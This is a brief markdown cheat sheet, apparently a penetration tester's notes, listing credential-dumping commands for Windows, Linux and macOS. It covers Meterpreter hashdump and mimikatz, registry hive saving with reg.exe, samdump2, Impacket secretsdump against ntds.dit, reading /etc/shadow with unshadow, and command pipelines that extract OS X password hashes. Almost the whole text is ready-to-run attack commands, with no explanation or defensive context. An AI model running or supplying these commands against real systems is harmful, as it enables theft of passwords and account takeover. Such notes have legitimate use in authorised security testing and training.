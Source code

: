 ```yaml
---
category: Uncategorized
tags: []
---
```

#credential-dumping 
# Windows: 

## Meterpreter HashDump

- run post/windows/gather/hashdump

## Meterpreter Mimikatz (Post Exploitation must be executed from SYSTEM privileges)

- load mimikatz
- creds_all

DUMP LSA SECRETS
- lsadump.py sys_backup.hiv sec_backup.hiv

DUMP LOCAL PASSWORD HASHES

- pwdump.py sys_backup.hiv sec_backup.hiv

## reg.exe 

- reg save HKLM\sam sam
- reg save HKLM\system system

## samdump2

- samdump2 SYSTEM SAM > hashes.db

## Impacket Tools: 

- secretsdump.py -ntds ~/Extract/ntds.dit -system ~/Extract/SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-hashes

If you have the NTDS.dit file and the SYSTEM hive: 

- secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL

# Linux

Requires Root Privileges

- cat /etc/shadow

- cp /etc/passwd and shadow
- unshadow passwd shadow 

#  OSX

10.5-10.7

- dscl localhost -read /Search/Users/<username>|grep GeneratedUID|cut -c15-cat
/var/db/shadow/hash/<GUID> | cut -c169-216 > osx_hash.txt

10.8-10.12

- sudo defaults read /var/db/dslocal/nodes/Default/users/<username>.plist ShadowHashData|tr -dc ‘
0-9a-f’|xxd -p -r|plutil -convert xml1 - -o -

# Other Resources: 

- Lsassy: https://github.com/Hackndo/lsassy